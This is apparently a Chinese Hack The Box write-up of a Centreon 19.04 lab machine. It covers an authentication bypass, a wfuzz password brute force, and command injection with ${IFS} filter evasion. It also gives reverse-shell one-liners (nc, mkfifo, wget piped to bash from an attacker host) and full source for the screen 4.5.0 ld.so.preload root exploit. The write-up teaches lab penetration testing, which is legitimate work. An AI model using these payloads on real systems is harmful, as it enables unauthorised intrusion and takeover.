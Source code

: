> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9lWzehwWx1TLQ9qpUsDhiQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/lFOEJLHA9qlicxGM47K4815LLNn8DTMZibibkkllDgjFG8nwKN4w3mSiaib9MQaV4THiaaZQ1icBU5dzMjwrHIjOoFolw/640?wx_fmt=gif)

**声明：**请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者及本公众号无关！

**START**

0x01 初始访问

nmap 扫描结果：

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

访问 80 端口  

http://10.10.10.157/monitoring   --->  Protected area by the admin 

系统提示没有权限访问

绕过方式：  

burp 抓包修改请求方式为 POST 成功绕过验证，301 跳转

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwSl2A8MXCc4Aw5wvvZZh6a7CH9dmWtTQJ1sCYbZgSTmfs7L9n9myZsA/640?wx_fmt=png)

随后点击上方的 Follow Redirection 即可跟随到跳转页面

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwwhXT0Wh5FfWU0koIg9Leia0SLGbGbkxzb7EzvLofd5Siaqv4Y7cm7QIg/640?wx_fmt=png)

0x02 使用最朴素的方法得到账密

http://10.10.10.157/centreon/  --->centreon  v. 19.04.0 登录页面  ----> RCE (需要管理员账户密码)

```
web页面默认凭据 admin/centreon   
ssh 默认凭据 root：centreon
```

默认凭据失效；尝试爆破，但是存在 CSRF 保护，每次验证过后都会重新生成令牌

当时可以利用该应用的 API 接口：相关文档 

https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html

POST 方式认证发送 "user 到 http://xx.xx.xx.xx/centreon/api/index.php?action=authenticate ---> 认证成功返回 200 状态码，否则 401

使用 wfuzz 工具进行爆破  

```
wfuzz -z file,/usr/share/wordlists/rockyou.txt -d “username=admin&password=FUZZ” –sc 200 http://10.10.10.157/centreon/api/index.php?action=authenticate
爆破结果：admin：password1
```

0x03 ******利用 centreon RCE 漏洞反弹 shell******

在 kali 下 searchsploit 搜索相关 centreon 得应用漏洞

对比以前搜集的该应用的版本信息，找到远程代码执行的 py 脚本

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwhPjsQrqDibjNrFJWjBAg5hZjW3mjzXoh2N9BWia3aYkBEnupdXWgI3LQ/640?wx_fmt=png)

```
python 47069.py   http://10.10.10.157/centreon  admin password1  10.10.14.67 4444  
```

发现并没有返回 shell 到 nc，猜测存在过滤。  

手工尝试：

Configuration-->Pollers --->Pollers---->add--->Monitoring Engine Binary 字段，命令注入    

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwjbQXEgBGYVticiaicYicbE0T5ibOSFD7msZdpicWStgDsLZylxhx9Uh6IP5Q/640?wx_fmt=png)

保存 -->Expore Configuration-->Expore

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYw1lKUF5Aay7Lh2RmiciaZ8HRAXYAVzs8kseV7wicGjJgm7gmls5pP7Bqdg/640?wx_fmt=png)

命令执行绕过测试：

```
ls -al ####返回Forbidden
ls${IFS}al ####正常返回结果----->对空格进行过滤
反弹shell：
nc${IFS}10.10.14.67${IFS}1337${IFS}-e${IFS}/bin/bash；----> 保存的时候Forbidden
rm${IFS}/tmp/f;mkfifo${IFS}/tmp/f;cat${IFS}/tmp/f|/bin/sh${IFS}-i${IFS}2>&1|nc${IFS}10.10.14.67${IFS}1337${IFS}>/tmp/f；
没有回连；受符号影响？？？改用base64
echo${IFS}bmNhdCAxMC4xMC4xNC42NyA0NDQ0IC1lIC9iaW4vYmFzaAo=${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
返回错误：sh: 1: -v: not found
```

尝试远程加载 paylaod 执行

```
kali@kali:~$ cat shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.67 1337 >/tmp/f
```

填入 paylaod：

```
wget${IFS}-qO-${IFS}http://10.10.14.67:8000/shell${IFS}|${IFS}bash;
```

成功反弹 www-data shell

0x04 ******权限提升******

查看可以 suid 提权的可执行文件

```
$ find / -perm -u=s -type f 2>/dev/null
/bin/screen-4.5.0
.....
```

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwuUOsJlcPIiaPz8TkYcaBdJVpLOwJWnzweIpkny9cPYaZbOJMiaqu03yw/640?wx_fmt=png)

按照 sh 教程走，生成对应文件

libhax.c

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

编译命令：  

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

rootshell.c

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

编译命令：

```
gcc -o rootshell rootshell.c
```

exploit.sh

```
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
```

将 libhax.so rootshell exploit.sh 上传到目标机器，./ 执行提取的 sh 脚本，成功提权

![](https://mmbiz.qpic.cn/mmbiz_png/lFOEJLHA9qmkE7CY7QPUAg7eYibUooUYwwB0YPJYzDhA3NKOF6LRn6yPhQRWVuUOu5lqeNp1dokZ2TMoiaMaAibeQ/640?wx_fmt=png)

- 往期推荐 -

  

[Chatterbox(hack the box 系列)](http://mp.weixin.qq.com/s?__biz=Mzg4MzA4Nzg4Ng==&mid=2247484507&idx=1&sn=27ac98be7db39d45ae86a1f8b00afd7c&chksm=cf4d8b3af83a022c9f0564cd6ea69a479b3fa516ffee509d80e85a4696618bdb6e39b38b9e9d&scene=21#wechat_redirect)  

[hack the box 系列之 Freelance](http://mp.weixin.qq.com/s?__biz=Mzg4MzA4Nzg4Ng==&mid=2247484161&idx=1&sn=45f16a2113812f2a28919be34ba6584c&chksm=cf4d8c60f83a0576cf905f7421e373b3c2b49ebce32b2b41ac21c816a29b82a7adb5662c413a&scene=21#wechat_redirect)  

**【推荐书籍】**